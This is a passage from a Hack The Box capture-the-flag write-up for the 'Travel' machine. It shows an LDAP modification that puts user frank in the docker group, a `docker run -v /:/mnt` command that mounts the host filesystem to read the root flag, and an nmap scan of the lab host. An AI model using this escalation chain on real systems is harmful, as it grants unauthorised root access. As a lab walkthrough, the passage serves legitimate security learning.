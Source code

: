 ```bash
sshPublicKey: your-public-key
```
I tried a couple of GIDs (0, lxd..) first but docker was the one that opened the path to root for me.
```bash
# Group.ldif
# replacing GID by 117 (docker)
dn: uid=frank,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
changeType: modify
replace: gidNumber
gidNumber: 117
```
And we can now log into the box as frank and take a look at the available docker images. Mounting the appropriate one gets the job done:
```bash
frank@travel:~$ docker images
REPOSITORY            TAG                 IMAGE ID            CREATED             SIZE
nginx                 latest              602e111c06b6        3 months ago        127MB
memcached             latest              ac4488374c89        3 months ago        82.3MB
blog                  latest              4225bf7c5157        3 months ago        981MB
ubuntu                18.04               4e5021d210f6        4 months ago        64.2MB
jwilder/nginx-proxy   alpine              a7a1c0b44c8a        5 months ago        54.6MB
osixia/openldap       latest              4c780dfa5f5e        9 months ago        275MB

frank@travel:~$ docker run -v /:/mnt -it ubuntu:18.04
[snip]
root@998315a25191:/# ls /mnt/root/
bin  root.txt  snap
root@998315a25191:/# cat /mnt/root/root.txt
[redacted]
```
# Resources
## <a name="Nmap scan"></a>Nmap scan
```
# Nmap 7.80 scan initiated Sun Jun 28 12:15:54 2020 as: nmap -sC -sV -oN initial.nmap -p- -Pn 10.10.10.189
Nmap scan report for travel (10.10.10.189)
Host is up (0.024s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     nginx 1.17.6
|_http-server-header: nginx/1.17.6
|_http-title: Travel.HTB
443/tcp open  ssl/http nginx 1.17.6
|_http-server-header: nginx/1.17.6
|_http-title: Travel.HTB - SSL coming soon.
| ssl-cert: Subject: commonName=www.travel.htb/organizationName=Travel.HTB/countryName=UK
| Subject Alternative Name: DNS:www.travel.htb, DNS:blog.travel.htb, DNS:blog-dev.travel.htb
| Not valid before: 2020-04-23T19:24:29
|_Not valid after:  2030-04-21T19:24:29
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 28 12:16:20 2020 -- 1 IP address (1 host up) scanned in 25.93 seconds
```
## Tools and reading
<a name="[0]">[0]</a> [Git-dumper](https://github.com/arthaud/git-dumper)
